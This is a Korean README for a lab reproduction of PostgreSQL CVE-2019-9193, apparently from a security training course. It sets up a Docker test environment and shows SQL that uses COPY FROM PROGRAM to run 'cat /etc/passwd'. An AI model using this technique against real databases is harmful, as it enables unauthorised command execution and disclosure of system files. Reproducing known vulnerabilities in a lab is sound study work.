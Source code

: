 # CVE-2019-9193


### 화이트햇 스쿨 3기 - [이용진](https://github.com/tteokbokki-master)

<br/>

### 정리
PostgreSQL에서는 `COPY FROM PROGRAM` 명령어를 통해 운영제체 수준의 명령을 수행할 수 있다. 이 기능은 기본적으로 슈퍼유저에게만 허용되며, PostgreSQL 10 이상에서는 슈퍼유저가 다른 사용자에게 이 기능을 명시적으로 부여할 수 있다. 이를 악용하면 공격자가 `/etc/passwd` 등의 민감한 파일을 읽거나 시스템 명령을 간접 실행할 수 있다. 

<br/>


### 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행 (postgres 10.7 버전)
- `psql -U postgres` 로 db 내 접근
- 테이블 생성 및 명령어 실행
``` 
CREATE TABLE test(content text);
COPY test FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM test;
```

`COPY FROM PROGRAM`을 통해 SQL 명령어로 시스템 명령어를 실행하여, passwd 파일을 읽는 것을 확인할 수 있다.

<br/>

### 결과

<img width="714" alt="스크린샷 2024-05-06 오전 12 09 52" src="./result.png">

<br/>
